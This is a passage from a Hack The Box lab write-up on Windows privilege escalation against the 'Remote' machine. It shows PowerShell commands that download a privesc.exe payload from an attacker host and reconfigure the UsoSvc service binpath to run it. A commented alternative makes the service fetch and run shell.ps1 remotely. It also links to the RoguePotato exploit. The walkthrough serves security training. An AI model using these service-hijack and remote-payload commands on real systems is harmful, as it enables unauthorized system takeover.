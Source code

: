 - Then we have to upload it:

```powershell
PS C:\Windows\System32\spool\drivers\color> (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/privesc.exe', 'c:\Windows\System32\spool\drivers\color\privesc.exe')
```

- Finally, stop the service, change the binary path and restart the service:

```powershell
PS C:\Windows\System32\spool\drivers\color> net stop UsoSvc
The Update Orchestrator Service service is stopping.
The Update Orchestrator Service service was stopped successfully.

# We could also do: sc.exe config UsoSvc binpath= "powershell.exe 'IWR http://10.10.14.12/shell.ps1 -UseBasicParsing'"
PS C:\Windows\System32\spool\drivers\color> sc.exe config UsoSvc binpath= "C:\Windows\System32\spool\drivers\color\privesc.exe"
[SC] ChangeServiceConfig SUCCESS
PS C:\Windows\System32\spool\drivers\color> net start UsoSvc 
```

![Desktop View](/assets/img/htb/machines/windows/easy/remote/system.png)

___

## Useful links

- <https://github.com/antonioCoco/RoguePotato>
- [My cheat sheat about Windows Privesc](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#privesc)
